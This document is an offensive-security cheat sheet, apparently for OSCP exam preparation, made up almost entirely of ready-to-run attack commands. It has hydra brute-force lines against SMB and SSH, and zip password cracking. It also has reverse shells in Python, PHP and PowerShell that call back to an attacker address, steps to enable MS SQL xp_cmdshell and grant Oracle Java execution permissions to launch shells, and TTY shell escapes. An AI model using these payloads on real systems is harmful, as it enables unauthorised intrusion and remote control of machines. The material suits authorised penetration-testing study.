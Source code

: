 # Offensive Security Testing Guide
This cheat sheet is the compilation of commands to exploit the vulnerable machines. The commands below may not be enough for you to obtain your Offensive Security Certified Professional (OSCP).

## Dictionary Attack
```bash
hydra -L <user_dict> -P <pwd_dict> 192.168.56.1 smb
hydra -L <user_dict> -P <pwd_dict> 192.168.56.1 ssh
```

```bash
fcrackzip -u -D -p <dictionary_file> <zip_file>
```

## Code Execution
### Python 

```python 
import subprocess
subprocess.check_output(['whoami'])
```

```python 
import os
import sys

os.system('nc -e /bin/bash <attacker_ip> 8099')
```

### PHP
```php
<?php passthru("rm /tmp/f; mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1|nc <attacker_ip_address> 8099 > /tmp/f"); ?>
```

### MS SQL
```sql
EXEC SP_CONFIGURE N'show advanced options', 1
go
EXEC SP_CONFIGURE N'xp_cmdshell', 1
go
RECONFIGURE
go
xp_cmdshell 'cd C:\<path_to_bind_shell>\ & <bind_shell_name>.exe';
go
```

### Oracle iSQL* Plus
```sql
exec dbms_java.grant_permission( 'SYSTEM','SYS:java.io.FilePermission', '<<ALL FILES>>', 'execute');

begin
  dbms_java.grant_permission
      ('SYSTEM',
       'java.io.FilePermission',
       '<<ALL FILES>>',
       'execute');
  dbms_java.grant_permission
      ('SYSTEM',
       'java.lang.RuntimePermission',
       '*',
       'writeFileDescriptor' );
end;

exec javacmd('<command>');
```

### Power Shell
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.56.101',8099);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

## TTY Shell

### Python
```python
which python
which bash
python -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

### Perl
```perl
/usr/bin/perl -e 'exec "/bin/sh"'
```

### VIM
```bash
:set shell=/bin/bash
:shell
```

### AWK
```bash
awk 'BEGIN {system("/bin/sh")}'
```
